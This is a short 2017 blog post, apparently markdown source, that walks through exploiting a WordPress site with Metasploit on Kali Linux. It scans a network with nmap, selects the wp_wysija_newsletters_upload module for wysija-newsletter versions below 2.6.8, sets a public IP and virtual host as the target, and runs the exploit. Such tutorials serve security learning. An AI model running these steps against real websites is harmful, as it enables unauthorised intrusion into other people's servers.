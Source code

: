 ```yaml
---
layout: post_article
title: Exploiting a WordPress Website with Metasploit
date: 2017-01-16T20:58
category: article
tags:
- metasploit
- wordpress
- kali
---
```


This is a quick blog post about exploiting a [WordPress](https://wordpress.org/) website using [Metasploit](https://www.metasploit.com/) on [Kali Linux](https://www.kali.org/).

#### Identify a Remote Host

```sh
msf > db_nmap -v -sV 192.168.111.xxx
```

{% include c_image.html src='2017/016/exploiting-wordpress-with-metasploit/575CF62D4C7E18CFD40566EA08E7D588.png' %}

##### Scan an Entire Network

This will save the results to the metasploit database

```sh
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

* `hosts` will list all the hosts found by `nmap`.
* `hosts -R` will add them to the list of hosts to exploit.

#### Searching for a WordPress Vulnerability

```sh
msf > search name:wordpress
```

{% include c_image.html src='2017/016/exploiting-wordpress-with-metasploit/A9D412A6F8C5F3485B429E2EA41D4CB9.png' %}

#### Use an Exploit

This will select an exploit to use:

```sh
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

This will show you the attacks that the exploit will take advantage of:

```sh
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

{% include c_image.html src='2017/016/exploiting-wordpress-with-metasploit/67A7D5964C96C63BA11EEA707CB4A604.png' %}

This will show what software and version will be targeted:

```sh
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

#### Next configure the Exploit

```sh
msf exploit(wp_wysija_newsletters_upload) > show options
```

```
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

Here is where we set all the options:

```sh
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

#### Run the Exploit

```sh
msf exploit(wp_wysija_newsletters_upload) > exploit
```
